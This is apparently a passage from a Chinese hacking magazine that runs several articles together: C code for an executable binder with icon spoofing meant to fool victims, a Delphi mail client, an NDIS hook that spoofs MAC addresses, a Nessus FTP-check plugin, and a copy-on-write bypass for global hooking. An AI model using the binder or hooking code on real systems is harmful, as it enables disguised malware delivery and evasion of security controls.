if((FirstFile=open(FirstFileName,O_RDWR|O_BINARY))!=-1)
{
    if((FirstFileLength=filelength(FirstFile))!=-1L)
        ltoa(FirstFileLength,cFirstFileLength,10);
}
if((SecondFile=open(SecondFileName,O_RDWR|O_BINARY))!=-1)
{
    if((SecondFileLength=filelength(SecondFile))!=-1L)
        ltoa(SecondFileLength,cSecondFileLength,10);
}
close(FirstFile);
close(SecondFile);

if((fBindFile=fopen(BindFileName,"w+b"))!=NULL)
{
    fwrite(ReleaseFile,1,4608,fBindFile);
    if((fFirstFile=fopen(FirstFileName,"rb"))!=NULL)
    {
        for(i=0;i<FirstFileLength;i++)
        {
            ch=fgetc(fFirstFile);
            fputc(ch,fBindFile);
        }
    }
    fclose(fFirstFile);

    if((fSecondFile=fopen(SecondFileName,"rb"))!=NULL)
    {
        for(i=0;i<SecondFileLength;i++)
        {
            ch=fgetc(fSecondFile);
            fputc(ch,fBindFile);
        }
    }
    // 写捆绑文件到文件尾部
    fclose(fSecondFile);
    strset(Temp,'\0');
    strcpy(Temp,cFirstFileLength);
    fwrite(Temp,1,20,fBindFile);
    strset(Temp,'\0');
    strcpy(Temp,cSecondFileLength);
    fwrite(Temp,1,20,fBindFile);
    // 写捆绑文件长度信息到文件尾部
}
```

以上执行的函数用的是 WinExec()，只能用于运行可执行文件，对于其他类型文件就无法打开了。我们可以将其换成 `BOOL ShellExecuteEx(PSHELLEXECUTEINFO lpExecInfo)` 函数来实现打开任意类型文件的功能。

在网上看到有些捆绑器将打包捆绑和释放运行写成同一个文件，并不是像我这样把捆绑和释放的程序分成两个。它们一般是先将自身原始文件大小写入程序，在运行时再将当前获得的自身文件大小与原始的比较，如若相等，则进行文件捆绑操作；若大于原始文件大小，则进入文件释放运行的操作。与这种方式比较，本文的方法虽然麻烦，但减小了捆绑文件的体积，更便于远程运行。

在编写命令行程序时，有时可以采用建立 Win32 应用程序的方式。一般我习惯采用建立控制台应用程序，但是该程序双击运行会有命令行窗口一闪而过，而采取建立 Win32 应用程序自己分离参数的方法可以避免这种现象。

至此，一个捆绑器的主要逻辑和代码就已编写完成了，但在使用过程中会发现，不论捆绑什么程序，我们生成的文件都是“释放程序”的图标，这样会在使用过程中被对方轻松识破。因此我们还要在“捆绑程序”上实现被捆绑程序图标自动提取和释放程序图标自动替换的功能。思路是利用资源文件替换的方式来做，就是先将被捆绑程序的图标从其资源中提取出来，再利用资源更新函数将释放运行程序的图标替换成提取出的被捆绑程序的图标。以下是图标资源操作的部分代码：

```c
HINSTANCE hInstance=LoadLibrary("待捆绑的exe文件名"); //载入文件
HRSRC hRsrc = FindResource(hInstance,(LPCTSTR)1,(LPCTSTR)RT_ICON); //查找文件中的图标文件
LPVOID lpRes=LockResource(LoadResource(hInstance,hRsrc));
HANDLE hUpdateRes = BeginUpdateResource("捆绑后的exe文件名", FALSE);
UpdateResource(hUpdateRes,(LPCTSTR)RT_ICON,(LPCTSTR)1,0,lpRes,SizeofResource(hInstance,hRsrc)); //更新图标资源
EndUpdateResource(hUpdateRes,FALSE); //结束更新资源
CloseHandle(hRsrc);
CloseHandle(hUpdateRes); //关闭
FreeLibrary(hInstance); //释放
```

通过分析和编写，一个完整的远程捆绑器就大功告成了。同时，一个完善的捆绑器在捆绑过程中应该将被捆绑程序进行加密，在释放时再解密运行，这样可以防止程序中出现多个完整的 EXE 文件而被识别检测出来。我们可以通过手动方式来捆绑想要捆绑的文件。当然，如果程序加上遍历目录和自动捆绑可执行文件的功能，就变成了一个可执行文件感染病毒了。因此，本文程序只是将捆绑器的原理和框架实现，并未将捆绑加密、图标替换和自动捆绑等功能都完整实现在程序内，有兴趣的读者可以自行补完。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：**Delphi**

关键词：编程、SMTP、POP3

##### Delphi 实现邮件 SMTP 与 POP3


文/键盘上的眼泪

一般发送邮件有两种方式，一种是通过 Web 的方式，还有一种是通过 SMTP 方式。收邮件也有两种方式，一种是 Web 方式，另一种是 POP3 方式。SMTP 即简单邮件传输协议，它是一组用于由源地址到目的地址传送邮件的规则，由其来控制信件的中转方式。POP3（Post Office Protocol 3）即邮局协议的第 3 个版本，是规定个人计算机如何连接到互联网上的邮件服务器进行收发邮件的协议。Outlook 与 FoxMail 都是用 SMTP 与 POP3 的方式来收发邮件的，本文我们用 Delphi 来编写一个类似于 Outlook 与 FoxMail 的邮件客户端。

###### 实现 SMTP 发信

Delphi 实现 SMTP 发信需要用到两个控件，分别是 TIdSMTP 和 TIdMessage。我们用搜狐的邮箱来做测试，其 SMTP 服务器地址是 smtp.sohu.com，端口 25。发信代码如下：

```pascal
procedure TForm1.Button1Click(Sender: TObject);
begin
  if IdSMTP1.Connected then IdSMTP1.Disconnect;
  IdSMTP1.Username := 'testmail123';
  IdSMTP1.Password := '123456hacker';
  IdSMTP1.Host := 'smtp.sohu.com';
  IdSMTP1.Port := 25;
  IdSMTP1.AuthenticationType := atLogin;
  IdMessage1.Subject := 'test标题';
  IdMessage1.Body.Text := 'test 内容';
  IdMessage1.From.Name := '键盘上的眼泪';
  IdMessage1.From.Address := 'testmail123@sohu.com';
  IdMessage1.Recipients.EMailAddresses := 'testmail123@sohu.com';
  IdMessage1.Priority := TIdMessagePriority(1);
  TIdAttachment.Create(IdMessage1.MessageParts, 'C:\1.txt');
  try
    IdSMTP1.Connect;
    IdSMTP1.Authenticate;
    IdSMTP1.Send(IdMessage1);
  finally
    IdSMTP1.Disconnect;
  end;
end;
```

程序执行之后，效果如图 1 所示。发件人是 testmail123@sohu.com，收件人也是 testmail123@sohu.com，并且附件也被传上去了。不过由于邮件内容过于简单，所以进了垃圾邮件，大家测试的时候，可以多写一些有意义的内容，防止进入垃圾邮件。

上面测试了国内的 Sohu 邮箱，再测试一下国外的邮箱，看看能不能用 SMTP 发信，就以 Gmail 来测试吧。Gmail 的 SMTP 地址是 smtp.gmail.com，端口是 465，修改代码运行之后，肯定是连接服务器失败。因为 Gmail 是需要 SSL 验证才能登录 SMTP 的。要解决 SSL 安全登录，可以使用 TIdSSLIOHandlerSocket 控件，添加代码“IdSMTP1.IOHandler:=IdSSLIOHandlerSocket1;”，编译后需要 SSL 动态库支持，支持库可以到 Indy 网站下载。

下载地址为 http://www.intelicom.si/www.nsf/2434100e39bad3f3c125705100369374/d6b8e150fe453facc1257082006fc8b9/$FILE/indy_openssl09g.zip。下载的是两个 DLL 文件 ssleay32.dll 与 libeay32.dll，将这两个文件放到 system32 目录下就可以了。


图 1

###### 实现 POP3 收信

利用 TIdPOP3 和 TIdMessage 这两个控件就能实现 POP3 收信，还是用 Sohu 邮箱来做测试，实现代码如下：

```pascal
procedure TForm1.Button2Click(Sender: TObject);
var
  mailcount: integer;
  i: integer;
  tmp: string;
begin
  Memo1.Clear;
  IdPOP31.Host := 'pop3.sohu.com';
  IdPOP31.Username := 'testmail123';
  IdPOP31.Password := '123456hacker';
  IdPOP31.Connect();
  mailcount := IdPOP31.CheckMessages;
  for i := 1 to mailcount do
  begin
    IdMessage1.Clear;
    IdPOP31.RetrieveHeader(i, IdMessage1);
    tmp := IdMessage1.Subject;
    Memo1.Lines.Add(tmp);
    IdPOP31.Retrieve(i, IdMessage1);
    tmp := IdMessage1.Body.Text;
    Memo1.Lines.Add(tmp);
  end;
  IdPOP31.Disconnect;
end;
```

到此为止，发信与收信的功能就都实现了。希望大家阅读完本文之后能更进一步去改进这个邮件客户端。

前置知识：VC

关键词：编程、MAC 地址、NDIS

##### Hook NDIS 实现 MAC 过滤

文/陈布雨

本文的主要目的是为了突破因 MAC 绑定而锁定的机器码来实现一个简单欺骗，并针对网卡驱动未提供自定义 MAC 接口（比如 Intel 的很多无线网卡驱动都没有这个接口），期望能够修改底层网卡 MAC。经过一段时间的研究，发现前者是可行的，而后者由于涉及厂家对 MAC 地址的处理，一般来说无法直接实现。在下面的演示中将逐步讲解这个问题。

首先我们来看如何得到网卡的 MAC 地址：

```c
static void GetMACaddress(void)
{
    IP_ADAPTER_INFO AdapterInfo[16];
    DWORD dwBufLen = sizeof(AdapterInfo);
    DWORD dwStatus = GetAdaptersInfo(
        AdapterInfo,
        &dwBufLen);
    assert(dwStatus == ERROR_SUCCESS);
    PIP_ADAPTER_INFO pAdapterInfo = AdapterInfo;
    do {
        PrintMACAddress(pAdapterInfo->Address);
        pAdapterInfo = pAdapterInfo->Next;
    }
    while(pAdapterInfo);
}
```

> **Miniport drivers**  
> A *miniport driver* directly manages a network interface card (NIC) and provides an interface to higher-level drivers.
>
> **Intermediate drivers**  
> An *intermediate driver* interfaces between upper-level protocol drivers and a miniport driver...
>
> **Protocol drivers**  
> An upper-level protocol driver implements a TDI interface...
>
> **Filter-hook driver**  
> A filter-hook driver is used to filter packets...

从以上文档可以发现，位于底层的是 Miniport Drivers，因此所有对于网卡的读写信息都是从这里返回的。幸运的是，DDK 的随机文档中有一份网卡的 Sample 驱动代码，我们何不拿出来读读呢？找到名为 e100bex 的项目，简单搜索后找到以下代码：

看到这里有读者可能就要问了，挂钩这个函数不就可以了吗？但我们碰到的案例却恰好是从驱动层来获取 MAC 地址的（这个程序本身就是防火墙程序），用户态挂钩显然不适用。经过简单的搜索，发现防火墙程序要实现包过滤肯定需要得到 MAC 地址，而通过对这个函数的跟踪，确定最终请求会转到 NDIS 相关的驱动中，于是我们找到 DDK，搜索一下网卡接口：

```c
case OID_802_3_PERMANENT_ADDRESS:
    pInfo = Adapter->PermanentAddress;
    ulBytesAvailable = ulInfoLen = ETH_LENGTH_OF_ADDRESS;
    break;

case OID_802_3_CURRENT_ADDRESS:
    pInfo = Adapter->CurrentAddress;
    ulBytesAvailable = ulInfoLen = ETH_LENGTH_OF_ADDRESS;
    break;
```

> **Using the Network Driver Design Guide (NDIS 5.1)**  
> Windows-based operating systems support several types of kernel-mode network drivers...
>
> Microsoft Windows 2000 and later versions of the operating system support four types of kernel-mode network drivers:

可以看出这里就是返回信息的地方，向上回溯，找到这段代码来自以下函数：

```c
NDIS_STATUS MPQueryInformation(
    IN NDIS_HANDLE MiniportAdapterContext,
    IN NDIS_OID Oid,
    IN PVOID InformationBuffer,
    IN ULONG InformationBufferLength,
    OUT PULONG BytesWritten,
    OUT PULONG BytesNeeded
);
```

```c
W_RESET_HANDLER ResetHandler;
W_SEND_HANDLER SendHandler;
W_SET_INFORMATION_HANDLER SetInformationHandler;
W_TRANSFER_DATA_HANDLER TransferDataHandler;
```

这个结构存放着回调函数，接下来我们就要开始玩弄我们的 NDIS 了。这里有几个办法，比较正式的办法是写一个 Intermediate Layer 驱动架在网卡与上层防火墙之类的驱动之间，如图 1 所示。但这显然是没必要的，写一个这样的驱动太耗费时间，因此我们自然想到了 Hook。不过用传统的方法挂钩 NdisMRegisterMiniport 后调用原始函数的方法存在问题，因为当我们修改传入的 MiniportCharacteristics 结构数据为自己的函数的时候，会回调下面的函数：

而这个函数恰好在 EntryPoint 的时候调用了。

```c
NdisZeroMemory(&MPChar, sizeof(MPChar));
MPChar.MajorNdisVersion = MP_NDIS_MAJOR_VERSION;
MPChar.MinorNdisVersion = MP_NDIS_MINOR_VERSION;
...
MPChar.QueryInformationHandler = MPQueryInformation;
...
DBGPRINT(MP_LOUD, ("Calling NdisMRegisterMiniport...\n"));
Status = NdisMRegisterMiniport(
    NdisWrapperHandle,
    &MPChar,
    sizeof(NDIS_MINIPORT_CHARACTERISTICS));
```

由此可以看出，网卡驱动调用 NdisMRegisterMiniport 来注册自己的回调函数事件。因此，我们若需要欺骗上层驱动，只需要挂钩这个函数即可。而接下来我们就要讨论如何实现对这个回调函数挂钩的技巧。先来看看 NdisMRegisterMiniport 函数的原型，代码如下：

```c
NDIS_STATUS
NdisMRegisterMiniport(
    IN NDIS_HANDLE NdisWrapperHandle,
    IN PNDIS_MINIPORT_CHARACTERISTICS MiniportCharacteristics,
    IN UINT CharacteristicsLength
);
```

注意看结构 PNDIS_MINIPORT_CHARACTERISTICS，其代码如下：

```c
typedef struct _NDIS_MINIPORT_CHARACTERISTICS {
    UCHAR MajorNdisVersion;
    UCHAR MinorNdisVersion;
    UINT Reserved;
    W_CHECK_FOR_HANG_HANDLER CheckForHangHandler;
    W_DISABLE_INTERRUPT_HANDLER DisableInterruptHandler;
    W_ENABLE_INTERRUPT_HANDLER EnableInterruptHandler;
    W_HALT_HANDLER HaltHandler;
    W_HANDLE_INTERRUPT_HANDLER HandleInterruptHandler;
    W_INITIALIZE_HANDLER InitializeHandler;
    W_ISR_HANDLER ISRHandler;
    W_QUERY_INFORMATION_HANDLER QueryInformationHandler;
    W_RECONFIGURE_HANDLER ReconfigureHandler;
    ...
} NDIS_MINIPORT_CHARACTERISTICS;
```


```c
NDIS_STATUS
MiniportQueryInformation(
    IN NDIS_HANDLE MiniportAdapterContext,
    IN NDIS_OID Oid,
    IN PVOID InformationBuffer,
    IN ULONG InformationBufferLength,
    OUT PULONG BytesWritten,
    OUT PULONG BytesNeeded
);
```

我们只能得到 MiniportAdapterContext，所以还需要挂钩注册 Context 函数，通过一个 Map 数据结构来存放用于记录原始函数指针的数据结构，完成 MiniportAdapterContext 到我们存放原始信息结构的转换。

```c
NDIS_STATUS
MiniportInitialize(
    OUT PNDIS_STATUS OpenErrorStatus,
    OUT PUINT SelectedMediumIndex,
    ...
);
```

```c
IN PNDIS_MEDIUM MediumArray,
IN UINT MediumArraySize,
IN NDIS_HANDLE MiniportAdapterHandle,
IN NDIS_HANDLE WrapperConfigurationContext
);
```

这样我们就要挂钩两个函数，并且还需要挂钩相关的 DeInitialize 函数来释放用于存放这个 Map 的数据。此处我们将利用一个技巧来避免繁琐的挂钩操作。首先定义一个叫做 TThunk 的结构用于存放机器码：

```c
#pragma pack(push,1)
struct TThunk
{
    UCHAR popeax;
    UCHAR push;
    ULONG addr;
    UCHAR pusheax;
    UCHAR push2;
    ULONG addr2;
    UCHAR ret;
};
#pragma pack(pop)
```

然后在我们的回调挂钩函数中：

```c
NDIS_STATUS NTAPI MyNdisMRegisterMiniport(
    IN NDIS_HANDLE NdisWrapperHandle,
    IN PNDIS_MINIPORT_CHARACTERISTICS MiniportCharacteristics,
    IN UINT CharacteristicsLength)
{
    // if(Status == NDIS_STATUS_SUCCESS)
    {
        TThunk *Thunk = (TThunk*)ExAllocatePool(NonPagedPool,32);
        Thunk->popeax = 0x58;
        Thunk->push = 0x68;
        Thunk->addr = (ULONG)MiniportCharacteristics->QueryInformationHandler;
        Thunk->pusheax = 0x50;
        Thunk->push2 = 0x68;
        Thunk->addr2 = (ULONG)MyMiniportQueryInformation;
        Thunk->ret = 0xC3;
        MiniportCharacteristics->QueryInformationHandler =
            (W_QUERY_INFORMATION_HANDLER)Thunk;
    }

    NDIS_STATUS Status = DNdisMRegisterMiniport
        pTrampolineFunc(NdisWrapperHandle,MiniportCharacteristics,
        CharacteristicsLength);

    DbgPrint("MyNdisMRegisterMiniport Status = 0x%08X\n", Status);
    return Status;
}
```

这段代码仅仅是生成一段 x86 机器码，并把这段机器码的入口替换 MiniportCharacteristics->QueryInformationHandler，这样当调用 MiniportCharacteristics->QueryInformationHandler 的时候，会首先执行我们生成的机器码，然后再调用原始例程并返回。

我们来看看这段机器码。首先使用 `pop eax` 将调用者的返回地址从堆栈弹出，放到寄存器 eax 中（recall，…）。

x86 中调用者使用 call 调用目标函数，当进入目标函数时，堆栈顶端放置的是函数的返回地址。然后将原始的 QueryInformationHandler 通过 push 指令压到堆栈中，把刚才弹到 eax 的函数地址再次放入堆栈顶端。最后为了避免修正 jmp 的 Relative Address 的麻烦，使用 `push imm32 / ret` 的方法将我们的回调 MyMiniportQueryInformation 放入并跳到该地址。于是这个时候在 MyMiniportQueryInformation 入口，我们的堆栈内容如下：

```text
Stack top
  Esp + 0   Caller Returning Address Of QueryInformationHandler
  Esp + 4   Origin Address Of QueryInformationHandler
  Esp + 8   Arg0 -> MiniportAdapterContext
  Esp + C   Arg1 -> OID
  ......
Bottom
```

因此，我们就要声明自己的以下函数：

```c
NDIS_STATUS NTAPI MyMiniportQueryInformation(
    TMiniportQueryInformation * PrevMiniportQueryInformation,
    IN NDIS_HANDLE MiniportAdapterContext,
    IN NDIS_OID Oid,
    IN PVOID InformationBuffer,
    IN ULONG InformationBufferLength,
    OUT PULONG BytesWritten,
    OUT PULONG BytesNeeded)
```

与原来的相比，仅仅是多了一个原始函数的参数，其他的不变。这样我们就直接可以调用到原始函数而不需要通过 Map 等方法查询了。具体实现代码如下：

```c
{
    NDIS_STATUS Status = PrevMiniportQueryInformation(
        MiniportAdapterContext,
        Oid,
        InformationBuffer,
        InformationBufferLength,
        BytesWritten,
        BytesNeeded);

    DbgPrint("Status=0x%08X, PrevMiniportQueryInformation=0x%08X, MyMiniportQueryInformation Oid :0x%08X\n",
        Status, PrevMiniportQueryInformation, Oid);

    if(Status == NDIS_STATUS_SUCCESS)
    {
        if(Oid == OID_802_3_PERMANENT_ADDRESS || Oid == OID_802_3_CURRENT_ADDRESS)
        {
            PUCHAR P = (PUCHAR)InformationBuffer;
            DbgPrint("Mac : %02X %02X %02X %02X %02X %02X\n",P[0],P[1],P[2],P[3],P[4],P[5]);
            *BytesWritten = sizeof(Mac);
            memcpy(InformationBuffer,Mac,sizeof(Mac));
            //return NDIS_STATUS_SUCCESS;
        }
    }

    return Status;
}
```

我们首先调用原始函数，如果函数成功，检索是否是我们需要的 OID 请求，如果是就过滤掉。最后我们需要把自己的 Hook 代码驱动安装在网卡驱动初始化之前，至于如何实现就留给大家来发挥了。

我们用简单的几十行代码就完成了对 MAC 地址的过滤，但这仅仅能够欺骗上层驱动和用户态通过相关函数来获取 MAC 地址。我在文章开头就已经说过，真正的网卡与交换机交换的 MAC 地址，在不借助网卡驱动的情况下是无法直接修改的。下面继续用 Sample NIC Driver 代码来说明问题：

```c
// Read NetworkAddress registry value
// Use it as the current address if any
if (Status == NDIS_STATUS_SUCCESS)
{
    NdisReadNetworkAddress(
        &Status,
        &NetworkAddress,
        &Length,
        ConfigurationHandle);

    if ((Status == NDIS_STATUS_SUCCESS) && (Length == ETH_LENGTH_OF_ADDRESS))
    {
        if ((ETH_IS_MULTICAST(NetworkAddress))
            || ETH_IS_BROADCAST(NetworkAddress)
            || !ETH_IS_LOCALLY_ADMINISTERED(NetworkAddress))
        {
            DBGPRINT(MP_ERROR,
            ("Overriding NetworkAddress is invalid"));
        }
        else
        {
            ETH_COPY_NETWORK_ADDRESS(Adapter->CurrentAddress, NetworkAddress);
            Adapter->bOverrideAddress = TRUE;
        }
    }
}
```

```c
Status = NDIS_STATUS_SUCCESS;
```

这里网卡通过读取注册表来重写 CurrentAddress。换言之，如果网卡不提供这个选项，我们就永远无法修改 CurrentAddress，因为 CurrentAddress 来自以下代码：

```c
if (!Adapter->bOverrideAddress)
{
    ETH_COPY_NETWORK_ADDRESS(Adapter->CurrentAddress,
                             Adapter->PermanentAddress);
}
```

而这个 PermanentAddress 则来自以下代码：

```c
// Read node address from the EEPROM
for (i = 0; i < ETH_LENGTH_OF_ADDRESS; i += 2)
{
    usValue = ReadEEprom(...);
    *((PUSHORT)(&Adapter->PermanentAddress[i])) = usValue;
}
```

但无论是 Adapter 数据结构的偏移，还是 EEPROM 的数据偏移和地址都只有厂商自己知道，在软件层是没有办法修改的。从技术上，我们可以通过 Patch 相应的网卡驱动来实现地址的修改，但这就没有一个比较通用或者挂钩的办法可以实现了。

本文的主要目的在于为读者提供一个对 NDIS 结构层的概要性介绍，并阐述了系统对于 MAC 地址查询请求的处理及其与网卡的交互。另外，本文比较取巧的挂钩方式也为这类应用提供了很大的方便。（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：NASL
- 关键词：编程、插件、Nessus

##### 编写 Nessus 扫描插件

文/图 清泉长风


相信大家对于 X-scan、ISS 这些功能强大的扫描软件并不陌生，X-scan 依赖于官方更新，ISS 虽然强悍，但却是收费软件。Nessus 的出现弥补了漏洞扫描的尴尬局面，它是一款基于插件的 C/S 架构的扫描器，目前其拥有的插件数目已经达到了 35052 个，而且全球的高手正在不停地增加这个数字。Nessus 不但免费，而且简单易用，更新极快。Nessus 具有检查的漏洞多、准确、速度快等特点，使其在众多安全扫描软件中脱颖而出。据 Nmap 的著名安全站点 http://insecure.org 在多年的 Top 100 Network Security Tools 评选中，Nessus 都以绝对的优势稳居榜首。Nessus 基于插件技术，通过插件模拟对系统的攻击，来达到对系统安全性进行检查的目的，如图 1 所示。在最新的 4.2 版中，支持的操作系统有 Linux、FreeBSD、Solaris、Mac OS X 和 Windows。

Nessus 的安全检查工作全部由插件完成，为了使全球的安全人士为 Nessus 扩展检查功能，Nessus 提供了描述攻击的脚本语言，称为 Nessus 攻击脚本语言（简称 NASL），我们将用它来完成插件的编写。大家可以在其官网 http://www.nessus.org/ 免费下载到最新版的 Nessus 4.2，在网站上注册后获得注册码，安装时需要输入注册码。


关于 Nessus 的安装和使用，可以去网上了解，我们这里要说的是利用 NASL 解释语言来编写扫描插件。NASL 是一门经过优化的脚本语言，相比 C 来说简单多了。一个完整的扫描插件源代码包括两个部分：注册部分和攻击扫描部分，注册部分包含加载该插件所需要的扫描描述信息；扫描攻击部分包含用于攻击测试漏洞的代码。每个 NASL 脚本的主体结构如下：

```c
#
# NASL 基本结构
#
if(description)
{
  #
  # 注册部分
  #
  exit(0);
}
#
# 攻击部分
#
```

“#”是注释符号，“description”是一个全局变量，值可以是 TRUE 或者 FALSE，取决于脚本是否需要注册。每一个测试插件都必须注册后才能使用，插件的注册部分一般由以下条目组成：script_id、script_version、script_name、script_description、script_summary、script_category、script_copyright、script_family、script_cve_id、script_bugtraq_id、script_require_ports、script_dependencies、script_timeout，如图 2 所示，图中带“*”的部分为必需的部分。


script_id 是设置脚本的唯一标识，ID 号可以为 90000-99000。函数原型为 script_id(<ID>)。script_version 设置版本，函数原型为 script_version(<Version>)。script_name 设置在 Nessus 客户端窗口中显示的名称，函数原型为 script_name(language:"<name>", [...])。script_description 设置在 Nessus 客户端窗口中显示的描述信息，函数原型为 script_description(language:"<dec>", [...])。script_summary 设置总结信息，必须在一行之内描述信息的内容，函数原型为 script_summary(language:"<summary>", [...])。script_category 设置脚本的类别，函数原型为 script_category(<category>)。script_copyright 设置版权信息，函数原型为 script_copyright(language:"<copyright>", [...])。script_family 设置所属的簇，函数原型为 script_family(language:"<family>", [...])。script_cve_id，如果该漏洞有 CVE（Common Vulnerabilities and Exposures）编号，则使用这个字段信息。CVE 是麻省理工学院维护的一个数据库，主要针对安全相关的问题提供一般性描述。script_bugtraq_id，如果该漏洞有 bugtraq 的编号，则使用这个字段，函数原型为 script_bugtraq_id(<bugtraq_id>)。script_require_ports 设置使用该脚本所依赖的远程主机开启的端口号。script_dependencies 设置使用该脚本所需要执行的其他脚本，解决安全测试插件的依赖关系，函数原型为 script_dependencies(filename, [filename2, ..., filenameN])。script_timeout 设置脚本的超时时长。

脚本的攻击部分包含了所有用于攻击的测试代码，当然这必须建立在一定的基础之上。NASL 的语法建立在 C 语言之上，取消了很多“烦人”的东西而已。关于详细的语法介绍，可参见 NASL GUIDE，这里就不多做介绍了。下面我们就来写一个简单的扫描插件，实例是一个检查 FTP 服务器是否允许匿名账户登录的插件脚本。

```c
include("compat.inc");
```

```c
# 上面这个保护文件，如同 C 中的 include，以下是注册
if(description)
{
  script_id(90001);
  script_version("$No Version$");
  script_xref(name:"OSVDB", value:"69");
  script_name(ChineseSimple:"是否允许匿名登录");
  script_set_attribute(attribute:"synopsis", value:"任何人允许在FTP服务器上登录");
  script_set_attribute(attribute:"description", value:"任何人允许在FTP服务器上登录");
  script_set_attribute(attribute:"solution", value:"禁止匿名账户的登录");
  script_set_attribute(attribute:"cvss_vector", value:"CVSS2#AV:N/AC:L/Au:N/C:P/I:N/A:N");
  script_end_attributes();
  script_summary(ChineseSimple:"检测FTP服务器匿名账户的登录许可");
  script_category(ACT_GATHER_INFO);
  script_family(english:"FTP");
  script_copyright(ChineseSimple:"本插件无任何版权，自由使用");
  script_dependencies("logins.nasl", "smtp_settings.nasl", "ftpservice_detect_type_nd_version.nasl");
  script_require_ports("Services/ftp", 21);
  exit(0);
}

# 攻击代码
include("ftp_func.inc");
port = get_kb_item("Services/ftp");
if(!port)port = 21;
if(get_kb_item('ftp/' + port + '/backdoor') || get_kb_item('ftp/' + port + '/broken')) exit(0);
state = get_port_state(port);
if(!state)exit(0);
soc = open_sock_tcp(port);
if(soc)
{
  domain = get_kb_item("Settings/third_party_domain");
  r = ftp_authenticate(socket:soc, user:"anonymous", pass:string("nessus@", domain));
}
```

```c
pass:string("nessus@", domain));
if(r)
{
  port2 = ftp_pasv(socket:soc);
  if(port2)
  {
    soc2 = open_sock_tcp(port2, transport:get_port_transport(port));
    if(soc2)
    {
      send(socket:soc, data:"LIST\r\n");
      listing = ftp_recv_listing(socket:soc2);
      close(soc2);
    }
  }

  if(strlen(listing))
  {
    report = string("FTP服务器目录:\n", listing);
  }
  else
    report = desc["ChineseSimple"];

  security_warning(port:port, extra:report);
  set_kb_item(name:"ftp/anonymous", value:TRUE);
  user_password = get_kb_item("ftp/password");
  if(!user_password)
  {
    set_kb_item(name:"ftp/login", value:"anonymous");
    set_kb_item(name:"ftp/password", value:string("nessus@", domain));
  }
}
close(soc);
}
```

这样，一个检测插件就写好了。众所周知，稍好一点的安全漏洞扫描工具，都是基于插件并开放 SDK 的，这样才能壮大扫描器的功能，才能在竞争中立于不败之地。Nessus 是一把好剑，在用好这把剑之前，熟悉和深入了解它是必须的。在出现 0Day 的时候，我们就需要自己动手编写插件来进行扫描。

- 前置知识：VC
- 关键词：编程、Hook、Copy-On-Write 机制

##### 熟用 Copy-On-Write 机制
###### 实现全局 Hook


文/图 meryal

如今对 Ring0 级别 Hook 的讨论是如火如荼。Ring3 级的 Hook 虽然操作起来较 Ring0 级的简单，但要想实……现全局 Hook 就必须用 DLL 实现。较常见的方法有远程插入和安装消息钩子，不可避免会耗费大量的系统资源。如何不使用 DLL 就实现 Ring3 级的全局 Hook 呢？下面就介绍一种应用程序与驱动程序通信的方法，禁用 Copy-On-Write 机制实现全局 Hook。

每个进程都有自己的 PDE，其物理地址放在 CPU 的 CR3 寄存器中。开启了 PAE 模式的系统，实现了三级地址转换，CPU 的 CR3 寄存器指向页目录指针表，再由它指向页目录。可通过 IsProcessorFeaturePresent / ExIsProcessorFeaturePresent（PF_PAE_ENABLED）判断是否开启 PAE。未开启与开启 PAE 时 PDE、PTE 地址计算公式不同。

##### 原理

Ring3 级的 Hook 如果不使用 DLL 的话，一般情况下只能对本进程有效。这是因为 Windows 使用了一种 Copy-On-Write 机制，当进程试图对特定的共享页面进行写操作时，系统会在写操作进行前先将共享的那一页复制一份，然后重新映射到进程的地址空间，这样用户写入的实际上是复制品，而不是原来的那份，原来的共享页面仍然被其他进程所使用。

根据以上所述，只要禁用了 Windows 的 Copy-On-Write 机制，就能使在本进程中对共享资源进行的写操作同样体现在其他所有共享此资源的进程之中。对于系统的几个关键 DLL，如 Kernel32.dll、User32.dll 等，它们在内存中各自存在一份映像，Windows 系统中的所有进程共享的都是同一份 Kernel32 的映像。如果禁用了 Copy-On-Write 机制，那么对于 Kernel32 中 API 的写操作将会体现在系统的所有进程中，这样就实现了全局 Hook。

```c
struct _HARDWARE_PTE_X86 {
  +0 bits0-0 Valid
  +0 bits1-1 Write
  +0 bits2-2 Owner
  +0 bits3-3 WriteThrough
  +0 bits4-4 CacheDisable
  +0 bits5-5 Accessed
  +0 bits6-6 Dirty
  +0 bits7-7 LargePage
  +0 bits8-8 Global
  +0 bits9-9 CopyOnWrite
  +0 bits10-10 Prototype
  +0 bits11-11 reserved
  +0 bits12-31 PageFrameNumber
}
```

PTE 的第二位“bits1-1 Write”指定了该页的读写权限，若为 0 则该页只读，为 1 则该页可读写。要禁用待修改页的 Copy-On-Write 机制，只需将第二位改为 1 即可。Ring3 的代码无法访问 PTE，因此禁用 Copy-On-Write 必须由驱动实现，而实现 Hook 的操作只需在应用程序中实现。

##### PDE 与 PTE

首先介绍一下物理地址扩展（PAE）的概念。PAE 是 Intel 引入的一种内存地址扩展模式，它允许 32 位 x86 系统使用 36 位寻址。32 位 WinNT 系统使用基于分页机制的虚拟内存。对于未开启物理地址扩展模式的系统，使用两级地址转换。CPU 将虚拟地址转换成物理地址的信息存放在叫做页目录（PDE）和页表（PTE）的结构中。每个进程有 4GB 的虚拟地址空间，被分成固定大小的页，页大小是 4KB。PDE 每项高 20 位存放页表物理地址、低 12 位存放标志；PTE 每项高 20 位存放物理页地址、低 12 位存放标志。

##### 具体实现

在实验中，我们首先用应用程序获得要 Hook 的函数 Beep 的虚拟地址，接着将虚拟地址发送到驱动程序中，让驱动程序禁用虚拟地址对应页面的 Copy-On-Write 机制，然后在应用程序中进行 Hook，最后再恢复页面的原属性。由于要全局 Hook，因此 Hook 的代码应该在 Kernel32.dll 中。这里用传统的函数前 5 个字节跳转的方法，当调用函数 Beep 时，跳转到 Kernel32.dll 的“空洞”处，弹出一个 MessageBox 对话框，而后返回函数继续执行。

首先定义一个内存结构 _COPY_ON_WRITE_MEMORY，代码如下：

```c
typedef struct _COPY_ON_WRITE_MEMORY {
    PVOID Base;
    ULONG Size;
} COPY_ON_WRITE_MEMORY, *PCOPY_ON_WRITE_MEMORY;
```

Base 为要修改的内存处的虚拟地址，Size 为要修改的大小。同时定义两个修改页面属性的设备控制代码：

```c
#define CTL_CODE(DeviceType, Function, Method, Access) (((DeviceType) << 16) | ((Access) << 14) | ((Function) << 2) | (Method))

#define IOCTL_MODIFY_MEMORY CTL_CODE(FILE_DEVICE_UNKNOWN, 0x810, METHOD_BUFFERED, FILE_ANY_ACCESS) // 修改 PTE 属性
